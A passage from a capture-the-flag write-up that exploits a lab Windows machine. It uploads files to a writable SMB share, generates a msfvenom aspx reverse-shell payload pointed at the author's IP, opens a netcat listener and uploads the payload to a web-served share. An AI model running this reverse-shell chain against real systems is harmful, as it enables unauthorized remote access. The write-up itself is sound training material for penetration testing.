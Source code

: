 We will not consider the last option, because it is for a Denial of Service which we do not want.

We're could use [Microsoft Windows - 'EternalRomance'/'EternalSynergy'/'EternalChampion' SMB Remote Code Execution (Metasploit) (MS17-010)](https://www.exploit-db.com/exploits/43970).

However, the room recommends manual exploitation so we're going to log back into the smb share and see if we can upload files using put.

I'm going to create a text file called put.txt to test this.

```
smbclient \\\\10.10.186.41\\nt4wrksv                                             1 ⨯
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> put put.txt
putting file put.txt as \put.txt (0.0 kb/s) (average 0.0 kb/s)
smb: \> ls
  .                                   D        0  Sat Mar 20 18:53:57 2021
  ..                                  D        0  Sat Mar 20 18:53:57 2021
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020
  put.txt                             A        0  Sat Mar 20 18:53:57 2021

                7735807 blocks of size 4096. 4949974 blocks available
```

Now that we see we have write permissions, lets check to see if we can navigate to this file in a browser, because we will need a way to execute our payload.

Let's see if the smb share is linked to port 49663 which we saw was http in our netscan by navigating to 10.10.212.88:49663/nt4wrksv/passwords.txt

### Success!! Now we found a way to get initial access.

* Let's create a msfvenom payload in our Relevant directory.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.6.40.191 LPORT=4444 -f aspx -o disc0ver.aspx    
```

* Let's open up a netcat listener (since they noted this could be done without metasploit).

```
rlwrap nc -lvnp 4444
```

I like to use rlwrap because it lets you use arrowkeys in the shell.

* Let's put the payload on the server through smb.

```
smb: \> put disc0ver.aspx
putting file disc0ver.aspx as \disc0ver.aspx (2.3 kb/s) (average 2.0 kb/s)
smb: \> ls
  .                                   D        0  Sat Mar 20 19:04:36 2021
  ..                                  D        0  Sat Mar 20 19:04:36 2021
  disc0ver.aspx                       A     2722  Sat Mar 20 19:04:36 2021
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020
  put.txt                             A        0  Sat Mar 20 18:53:57 2021

                7735807 blocks of size 4096. 4947171 blocks available
```
